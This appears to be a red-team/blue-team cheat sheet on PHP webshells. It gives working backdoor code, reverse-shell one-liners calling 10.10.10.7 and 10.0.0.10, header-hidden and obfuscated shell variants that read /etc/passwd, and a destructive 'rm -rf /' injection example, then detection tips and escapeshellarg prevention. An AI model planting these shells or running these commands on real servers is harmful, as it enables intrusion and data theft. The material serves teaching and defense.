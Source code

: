 # RedTeam

## Characteristic
- Script, which is written in language of target web server
   - PHP
   - Python
   - Ruby
   - Perl
   - ASP (Active Server Page)
   - Unix Shell Script
- Uploaded to enable remote access of the machine
- Servers that only host internal resources are also at risk
- Communication is simply over HTTP
- Usually installed via:
   - Document/file upload pages
   - Local File Include (LFI): Put webshell in page of webapp
   - Cross-site scripting (XSS)
   - Exposed Admin Interface (e.g. OWA/Outlook Web App, EAS/Exchange ActiveSync)
 
## Return list of dangerous enabled functions
```
<?php

//print_r = print variable information in readable form

print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## Typical Webshell Commands
- `<?php system("whoami"); ?>`
- `<?php exec("whoami"); ?>`: Executes but returns nothing
- `<?php echo exec("whoami"); ?>`
- `<?php exec("whoami", $array); print_r($array); ?>`: Executes, returns output in array
- `<?php echo shell_exec("whoami"); ?>`: Executes, returns string
- `<?php passthru ("whoami"); ?>`: Executes, returns raw format
- ```<?php echo "<pre>`whoami`</pre>"); ?>```
- `<?php system($_GET['c']);?>`: www.example.com/demo/shell.php?c=whoami

## Example Webshells
```
<?php

// 1) Upload backdoor.php on web server
// 2) Enter URL --> http://example.com/backdoor.php?c=nc -e /bin/sh 10.10.10.7 4444

if(isset($_REQUEST['c'])){
        echo "<pre>";
        $c = ($_REQUEST['c']);
        system($c);
        echo "</pre>";
        die;
}
?>
```

- One liner: `<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'"); ?>`
    - This webshell invokes an interactive bash shell 
    - Shell traffic is routed to attacker machine with example IPv4 10.0.0.10 at port 1234
    - `0>&1` = STDIN is redirected to STDOUT

## Hide Webshell Traffic
1. `<?php system($_SERVER['HTTP_USER_AGENT'])?>`: Modify HTTP_USER_AGENT accordingly
2. `<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>`: Hide traffic along with uncommon parameter HTTP_ACCEPT_LANGUAGE
3. `<?php $_=$_POST['1'];  $__=$_POST['2']; $_($__); ?>`
    - Send POST request with variable '1' = 'system' and variable '2' = 'cat /etc/passwd'
    - The term `$_($__)` becomes then `system('cat /etc/passwd')`

<br />

# BlueTeam

## How to Detect
- Web serve Access/Error logs
- Notice of unusual timestamps
- Search for common strings in files or filenames (passthru|exec|eval...)
- Webshell signature scanner
- Search for very long strings, which may indicate encoding
- Search for files that were modified in the recent X days
   - `find -name '*.php' -mtime -1 -ls`
- Search for htaccess modification (false filename-extension mapping)
   - `addType application/x-httpd-php .htaccess`
   - `addType application/x-httpd-php .jpg`


## Command Injection Prevention
- Wrong: `<?php system('ls ' . $_GET['path']); ?>`  --> ls ; rm -rf /
    - the commmand `ls` gets interrupted and the attacker can enter another command like `rm -rf /`, which will delete the entire directory 
- Good: `<?php system('ls ' . escapeshellarg($_GET['path'])); ?>` --> ls 'rm -rf /'
    - the execution of malicious code is prevented since it gets interpreted as string

